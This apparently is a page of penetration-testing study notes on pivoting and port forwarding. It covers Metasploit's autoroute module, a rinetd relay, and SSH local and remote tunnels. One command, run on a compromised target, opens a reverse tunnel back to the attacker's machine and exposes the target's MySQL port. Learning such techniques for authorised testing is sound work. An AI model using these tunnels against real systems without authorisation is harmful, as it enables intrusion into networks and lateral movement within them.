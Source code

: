 # Port forwarding

### Metasploit

```text
use post/windows/manage/autoroute
set SESSION <session>
set SUBNET <subnet>
run
```

### rinetd

```text
rinetd
cat /etc/rinetd.conf
0.0.0.0 <local_port> <target> <target_port>
sudo service rinetd restart
ss -antp
```

### SSH tunneling

```text
# run on target machine
ssh -R 4444:127.0.0.1:3306 kali@<lhost>

# now you can connect to target's mysql port from your kali machine
mysql -u root -h 127.0.0.1 -P 4444
```

```text
# -L local
# -R remote
# -D dynamic

# attacker(a) <---internet---> initial_target(i) <---local_network---> target(t)
a> ssh -N -L 0.0.0.0:<a_port>:<t_ip>:<t_port> <user>@<i_port>

# attacker(a) <---firewall---> target(t)
t> ssh -N -R <a_ip>:<a_port>:localhost:<t_port> <user>@<a_ip>

# cont. on page 606
```

